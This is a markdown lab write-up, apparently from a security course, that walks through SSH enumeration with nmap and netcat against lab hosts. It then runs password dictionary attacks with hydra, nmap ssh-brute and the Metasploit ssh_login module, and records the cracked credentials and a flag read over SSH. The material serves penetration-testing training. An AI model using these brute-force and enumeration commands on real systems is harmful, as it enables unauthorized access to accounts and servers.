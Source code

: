 # SHH (Secure Shell)

`ip a`

`ping 192.28.51.3`

`nmap 192.28.51.3`

`nmap 192.28.51.3 -sV O`: runnng OpenSSH 7.2p2

`ssh root@192.28.51.3`

`nc 192.28.51.3`

`nmap 192.28.51.3 -p 22 --script ssh2-enum-algos`

`nmap 192.28.51.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`

`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`

`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"`

`ssh student@192.28.51.3`


We want to enumerate the version of the SSH server:
`nmap 192.28.51.3 -sV O`
**It runs OpenSSH 7.2p2

We want to fetch the banner using netcat:
`nc 192.28.51.3`
**SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.6**

We need to enumerate the encryption_algorythms:
`nmap 192.28.51.3 -p 22 --script ssh2-enum-algos`
**6**

We want to find out by how many SSH servers the host key is being used:
`nmap 192.28.51.3 -p 22 --script ssh-hostkey --script-args ssh_hostkey=full`
**The SSH uses the RSA public key (output with above command) to securely ecrypt client connecting to it.

We want to find out which authentification method is being used by the SSH server for user "student".
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=student"`
**no auth. method is being used.**

We want to find out the same again, but this time with admin.
`nmap 192.28.51.3 -p 22 --script ssh-auth-methods --script-args="ssh.user=admin"`
**publickey, password**

We want to fetch the flag from /home/student/FLAG by using nmap ssh-run script:
`nmap -p 22 --script=ssh-run --script-args="ssh-run.cmd=cat /home/student/FLAG,
ssh-run.username=student,ssh-run.password=" 192.201.39.3`

## SSH Dictionary Attack

`ip a`
`ping 192.35.81.3`
`nmap 192.35.81.3`
`nmap 192.35.81.3 -sV -p 22`
We want to find out the password of the user "student":
`gzip -d /usr/share/wordlists/rockyou.txt.gz`
`hydra -l student -P /usr/share/wordlists/rockyou.txt 192.35.81.3 ssh`
**friend**
`ssh student@192.35.81.3`: not much there, so we try administrator:
We want to find out the passwort of user "administrator" using nmap scripts with specific pw dictionary:
`echo "administrator" > user`
`nmap 192.35.81.3 -p 22 --script ssh-brute --script-args userdb=/root/user`
**password: sunshine**
Now we want to find the password of user "root" using ssh_login metasploit module with userpass dictionary
`msfconsole`
  msf5: `use auxiliary/scanner/ssh/ssh_login`
  msf5: `options`
  msf5: `set rhosts 192.35.81.3`
  msf5: `set userpass_file /usr/share/wordlists/metasploit/root_userpass.txt`
  msf5: `set STOP_ON_SUCCESS true`
  msf5: `set verbose true`
  msf5: `options`
  msf5: `run`
  msf5: `exit`
**password: attack**
We wanna establish a ssh connection with the password we enumerated:
`ssh root@192.35.81.3`: insert attack
after login, we recieve the message of the day:
_SSH recon dictionary attack lab_
Questions

1. Find the password of user “student” using hydra.
2. Find the password of user “administrator” use appropriate Nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst
3. Find the password of user “root” using ssh_login Metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt
4. What is the message of the day? (Printed after the user logs in to the SSH server).

